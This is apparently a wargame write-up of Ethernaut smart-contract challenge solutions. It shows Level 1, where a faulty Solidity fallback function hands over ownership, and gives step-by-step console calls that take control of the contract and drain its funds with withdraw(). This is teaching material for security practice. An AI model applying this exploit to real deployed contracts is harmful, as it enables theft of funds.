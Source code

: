 # Ethernaut Solutions

## Level 1 - Fallback

Exploiting faulty logic that allows taking posession of the contract. 

```
  // 'fallback' function sets contract owner to msg.sender
  // can be used to take control of the contract
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

By satisfying the condition in the fallback function, the contract can be hijacked.

```
// Get current contract owner
await contract.owner();

await contract.contribute({ value: 1 });
// use the sendTransaction function to make a call to the contract

// trigger the fallback by sending Ether with no msg.data
await contract.sendTransaction({ value: 1 });

// Get current contract owner (should be your address now)
await contract.owner();

// Call the withdraw function and drain the funds
await contract.withdraw();
```

## Level 2 - Fallout